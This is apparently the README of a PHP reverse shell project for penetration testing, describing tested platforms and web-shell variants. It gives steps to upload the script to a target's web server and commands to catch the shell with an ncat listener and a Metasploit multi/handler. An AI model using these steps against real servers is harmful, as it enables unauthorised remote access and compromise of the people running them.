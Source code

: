 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is used.

[/src/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

---

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

---

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
